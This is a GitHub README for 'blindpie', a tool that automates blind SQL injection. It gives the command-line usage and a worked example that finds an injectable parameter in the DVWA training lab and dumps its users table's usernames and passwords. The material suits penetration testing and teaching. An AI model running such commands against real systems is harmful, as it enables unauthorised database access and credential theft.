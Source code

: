 <h1 align="center">
	<br>blindpie<br>
</h1>

<h4 align="center">Automatically exploit blind-SQLi vulnerabilities</h4>

<p align="center">
	<a href="https://github.com/alessiovierti/blindpie/releases">
		<img src="https://img.shields.io/github/release/alessiovierti/blindpie.svg">
	</a>
	<a href="https://travis-ci.com/alessiovierti/blindpie">
		<img src="https://img.shields.io/travis/com/alessiovierti/blindpie.svg">
	</a>
</p>

<p align="center">
	<a href="#installation">Installation</a> •
	<a href="#features">Features</a> •
	<a href="#usage">Usage</a> •
	<a href="#examples">Examples</a> •
	<a href="#tips">Tips</a> •
	<a href="#contributing">Contributing</a>
</p>

<img align="center" src="https://i.imgur.com/tfMaLG9.gif" alt="Demo Long Fetch">

### Installation

```
pip install blindpie
```

### Features

- Test if any parameter is exploitable
- **Fast** multithreading fetching of a table
- Dump part of a table or keep fetching until stopped / until end of table
- Dump results on a TSV file
- Use custom headers for HTTP requests
- Define the default values of the other parameters in the requests

### Usage

<h4 align="center">Testing parameters</h4><p></p>

<img align="center" src="https://i.imgur.com/0D9Zyx0.gif" alt="Demo Test">

```
usage: blindpie.py test [-h] -M method -P params [-H headers] [-T threshold]
                        [-I max_interval]

optional arguments:
  -h, --help            show this help message and exit
  -M method, --method method
                        the HTTP method for the requests
  -P params, --params params
                        the parameters to test and their default values (must
                        be a JSON dictionary)
  -H headers, --headers headers
                        the headers for the requests (must be a JSON
                        dictionary)
  -T threshold, --threshold threshold
                        threshold used to decide if an answer is affirmative
                        or negative (must be greater than 1)
  -I max_interval, --max_interval max_interval
                        max time to wait between each request in ms
```

<h4 align="center">Fetching a table</h4><p></p>

<img align="center" src="https://i.imgur.com/ubsFh8M.gif" alt="Demo Short Fetch">

```
usage: blindpie.py fetch_table [-h] -M method -P params [-H headers]
                               [-T threshold] [-I max_interval] -p
                               vulnerable_param -t table -c columns
                               [-r from_row] [-n n_rows]
                               [--min_row_length min_row_length]
                               [--max_row_length max_row_length]
                               [-o output_path]

optional arguments:
  -h, --help            show this help message and exit
  -M method, --method method
                        the HTTP method for the requests
  -P params, --params params
                        the parameters and their default values (must be a
                        JSON dictionary)
  -H headers, --headers headers
                        the headers for the request (must be a JSON
                        dictionary)
  -T threshold, --threshold threshold
                        threshold used to decide if an answer is affirmative
                        or negative (must be greater than 1)
  -I max_interval, --max_interval max_interval
                        max time to wait between each request in ms
  -p vulnerable_param, --vulnerable_param vulnerable_param
                        the vulnerable parameter to exploit
  -t table, --table table
                        the name of the table to fetch
  -c columns, --columns columns
                        the columns to select
  -r from_row, --from_row from_row
                        the row from which to start to select
  -n n_rows, --n_rows n_rows
                        the number of rows to select
  --min_row_length min_row_length
                        limit selection to rows with this min length
  --max_row_length max_row_length
                        limit selection to rows with this max length
  -o output_path, --output_path output_path
                        path to the output file
```

### Examples

Let's consider for example the [Damn Vulnerable Web Application](http://www.dvwa.co.uk), in particular its page `vulnerabilities/sqli_blind/`.

The page shows a form to search information about a user. The form sends a GET request with parameters `id` and `Submit`.

To test which parameters are exploitable we can use the `test` command:

- First, we need to prepare a default request which contains the default values for the parameters, as a JSON dictionary:

	`{"id":"1","Submit":"Submit"}`

- Then we need to prepare the headers (if you don't provide any `blindpie` will use some default ones). In this case the page requires a PHPSESSID value in the Cookie header (and a cookie `security` to set the security level of DVWA):

	`{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}`

The following command will find which parameters are exploitable:

```
$ blindpie.py -u {YOUR_DVWA_INSTANCE}/vulnerabilities/sqli_blind/ test -M get -P '{"id":"1","Submit":"Submit"}' -H '{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}'
```

`blindpie` will find out that the `id` parameter is indeed exploitable.

Let's say, for example, that we want to dump the `user` table, by selecting its columns `user` and `password` by exploiting the vulnerability we found.

The following command will dump the fetched rows into a TSV file:

```
$ blindpie.py -u {YOUR_DVWA_INSTANCE}/vulnerabilities/sqli_blind/ fetch_table -M get -P '{"id":"1","Submit":"Submit"}' -H '{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}' -p "id" -t "users" -c "user,password"
```

If you want to end the fetching before it may be completed, stop it with <kbd>CTRL</kbd>+<kbd>C</kbd>.
You'll find the dumped table in a file named `blindpie.out` in your working directory.

### Tips

`blindpie` gives you some ways of getting faster or more reliable results:

- `--threshold` can make fetching much faster when it's close to 1 but it will be also much less reliable.
- `--max_interval` can make requests more distant one with the other. Choose wisely since an high value will make fetching much slower. When testing local targets you should use 0.
- `--min_row_length` and `--max_row_length` can help get faster results by limiting the search to rows with length in this range.

### Contributing

If you have any idea, tip, or you want to contribute in any way, open an issue or contact me in any way you prefer.

If you want to have a look at how the project is structured check `./docs/uml/uml.svg`.

If you wanna play with it or extend it use the `Makefile` to install the requirements (`$ make init`) or launch the tests (`$ make test`).

### Authors

* **Alessio Vierti** - *Initial work*

### License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
